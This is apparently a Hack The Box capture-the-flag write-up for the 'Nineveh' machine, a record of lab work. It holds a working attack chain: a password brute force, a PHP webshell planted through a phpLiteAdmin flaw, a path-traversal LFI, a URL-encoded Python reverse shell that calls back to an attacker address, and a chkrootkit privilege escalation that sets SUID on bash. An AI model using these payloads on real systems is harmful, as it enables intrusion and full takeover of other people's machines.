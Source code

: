 # HTB - Nineveh

#### Ip: 10.129.69.39
#### Name: Nineveh
#### Rating: Medium

----------------------------------------------------------------------

![Nineveh.png](../assets/nineveh_assets/Nineveh.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.69.39 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-08 13:45 CDT
Nmap scan report for 10.10.10.43
Host is up (0.070s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.98 seconds
```

Ok looks just like HTTP and HTTPS open for this box. Lets add nineveh.htb to `/etc/hosts` first off.

Looking at the page on port 80 we find a basic HTML landing page:

```
It works!

This is the default web page for this server.

The web server software is running but no content has been added, yet.
```

And on port 443 we find a simple image:

nineveh_443.png

Using basic directory fuzzing we find a `/db` page, which appears to be a phpLiteAdmin page:

nineveh_db.png

After trying just a few low-hanging-fruit passwords, I found I was able to login with the password `password123`.

Looking for exploits for phpLiteAdmin 1.9 I find: https://www.exploit-db.com/exploits/24044

This exploit clearly lays out steps we need to take to exploit this:

```
Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!
```

Lets take this idea and try to create a webshell. We'll create a new db called shell.php, and add a table called shell. From here we can replicate the step above and add the text field `<?php system($_GET["cmd"]); ?>`.

nineveh_shell.png

CLicking create and returning to the shell.php db page we see it is being stored in `/var/tmp/shell.php` which means until we get deeper access to the target it doesn't seem usable to us yet.

Lets take step back and perform more thorough directory fuzzing:

For port 80:
```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ feroxbuster --url http://nineveh.htb -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php -o 80_dirs.txt 
```

and port 443:
```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ feroxbuster --url http://nineveh.htb -k  -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php -o 443_dirs.txt 
```

Looking at the scan output we find a department login page:

nineveh_dirs80.png

nineveh_department.png

And looking at the page source we find an interesting comment:

nineveh_source.png

Looks like Mysql is running internally, and we also discover a potential username amrois.

Trying to login if we enter `admin` as the username and an incorrect password we get the error `invalid password!`, but if we enter something like `root:root` we get the error `incorrect username`. This lets us know the username `admin` exists.

Trying common passwords got me nowhere here so I fired up Hydra and we found a hit:

nineveh_hydra.png

`admin:1q2w3e4r5t`

We can now access the site:

nineveh_in.png

In the Notes section we find another note from amrois:

```
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```

The path for Notes is: http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt

Which looks like its worth testing LFI here.

Fiddling around with placement, I eventually found an LFI at: http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../etc/passwd

nineveh_lfi1.png

Trying to use this LFI to interact with the shell.php file we uploaded earlier, we can confirm execution as user www-data:

nineveh_webshell.png

Lets grab a python reverse shell one-liner from revshell.com, URL encode it, and pass it as our command:

```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../var/tmp/shell.php&cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.214%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ nc -lnvp 443                                             
listening on [any] 443 ...
connect to [10.10.14.214] from (UNKNOWN) [10.129.69.39] 34386
www-data@nineveh:/var/www/html/department$ whoami
whoami
www-data
www-data@nineveh:/var/www/html/department$ hostname
hostname
nineveh
```

Now that we have a shell on the target we can attempt to access the user.txt flag in amrois `/home` directory, but get an access denied:

```
www-data@nineveh:/home/amrois$ cat user.txt
cat: user.txt: Permission denied
```

Not finding much of interest I decided to load pspy64, and we find that `chkrootkit` is running very frequently:

nineveh_chkroot.png

Looking for exploits I find: https://www.exploit-db.com/exploits/33899

Lets create a file called `update` in `/tmp` that sets the SUId on `/bin/bash`

```
www-data@nineveh:/tmp$ cat update 
#!/bin/bash
/bin/chmod 4755 /bin/bash
```

We can then make it executable and assign it open permissions:

```
www-data@nineveh:/tmp$ chmod +x /tmp/update
www-data@nineveh:/tmp$ chmod 777 /tmp/update
```

We can wait just a second or two before running `/bin/bash -p` to drop into a root shell:

```
www-data@nineveh:/tmp$ /bin/bash -p         
bash-4.3# whoami
root
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

And we can now grab the two flags:

nineveh_user_flag.png

nineveh_root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------

